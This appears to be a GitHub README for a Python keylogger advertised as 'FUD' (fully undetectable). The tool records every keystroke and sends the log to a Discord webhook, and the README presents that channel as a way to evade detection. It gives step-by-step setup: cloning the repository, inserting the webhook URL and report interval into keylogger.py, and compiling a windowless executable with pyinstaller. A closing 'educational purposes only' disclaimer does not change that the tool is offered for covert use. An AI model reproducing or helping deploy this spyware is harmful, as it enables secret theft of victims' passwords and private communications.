 # FUD Keylogger That Reports To Discord #

This python script will capture all of the keystrokes within a given time frame and report them to a Discord Server using Webhooks. Instead of the traditional "save to file" or "report to email" methods, you can use this method to stay undetected since webhook requests are considered as normal Discord Traffic.

## Getting Started

Make sure you have Python installed on your machine, you download the installer from [here](https://www.python.org/downloads/).

## Installation
```
git clone https://github.com/3ct0s/discord-keylogger.git
```

## Install Required Libraries
```
python -m pip install -r requirements.txt
```

## Create a Discord Server 

You can follow [this](https://support.discord.com/hc/en-us/articles/204849977-How-do-I-create-a-server-) article on how to do that.

## Create a Discord Webhook

Got to your servers settings select Intergrations >> Webhooks and create a new Webhook. You can also customize it and give it a name and a featured icon. Make sure to copy the URL, you will need it later.


## Edit keylogger.py
Its time to edit the python script. Now that you have the Webhook URL, you can add that to the file. Also make sure to add your desired timeframe that they keylogger will report to you. You have to add the time in seconds so you can use [this](https://www.calculatorsoup.com/calculators/conversions/time.php) converter to get the correct time in seconds.

```Python
import keyboard,os
from threading import Timer
from datetime import datetime
from discord_webhook import DiscordWebhook, DiscordEmbed

SEND_REPORT_EVERY = TIME_IN_SECONDS_HERE
WEBHOOK = "WEBHOOK_URL_HERE"
```

## Execute the script

You are now ready to test the script and see whether if it works or not. If you are having problems with the script please open a new ticket on the issues tab and i will try to help you.

To execute the script all you have to do is run:
```
python keylogger.py
```
If all goes right, you should see a report on discord after the seconds you have specified on the script have passed.

## Compile the script

Now what if you want to turn this into an executable? You can do that with the pyinstaller library that was included in the requirements.txt file.
```
pyinstaller PATH_TO_SCRIPT --onefile --noconsole
```
## ⚠️ DISCLAIMER ⚠️

**I am not responsible for any of your actions. This GitHub repository is made for educational purposes only!!!**
